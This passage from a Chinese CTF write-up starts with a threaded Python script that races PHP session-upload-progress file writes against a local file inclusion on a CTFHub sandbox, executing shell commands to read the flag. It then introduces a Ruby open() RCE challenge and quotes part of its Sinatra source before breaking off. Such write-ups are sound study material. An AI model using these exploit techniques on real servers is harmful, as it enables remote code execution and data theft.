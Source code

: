 羽师傅的脚本

```python
import requests
import threading
session=requests.session()
sess='yu22x'
url1="http://challenge-13a76fa553bf63aa.sandbox.ctfhub.com:10800"
url2='http://challenge-13a76fa553bf63aa.sandbox.ctfhub.com:10800?file=/tmp/sess_'+sess
data1={
	'PHP_SESSION_UPLOAD_PROGRESS':'<?php echo `cat /f*`;?>'
}
data2={
	'1':'system("cat f*");'
}
file={
	'file':'abc'
}
cookies={
	'PHPSESSID': sess
}
def write():
	while True:
		r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
	while True:
		r = session.post(url2,data=data2)
		if 'ctfhub' in r.text:
			print(r.text)
threads = [threading.Thread(target=write),
       threading.Thread(target=read)]
for t in threads:
	t.start()

```

##  PNG图片转换器

这个题对于现在的我确实不太会做，只有自己看wp

现在fuzz一波，结果发现什么图片马都不得行。

考点是：Ruby open rce

参考文献

https://ruby-doc.org/docs/ruby-doc-bundle/Manual/man-1.4/function.html#open

https://blog.heroku.com/identifying-ruby-ftp-cve

```ruby
require 'sinatra'
require 'digest'
require 'base64'

get '/' do
  open("./view/index.html", 'r').read()
end

get '/upload' do
  open("./view/upload.html", 'r').read()
end

post '/upload' do
  unless params[:file] && params[:file][:tempfile] && params[:file][:filename] && params[:file][:filename].split('.')[-1] == 'png'
    return "<script>alert('error');location.href='/upload';</script>"
```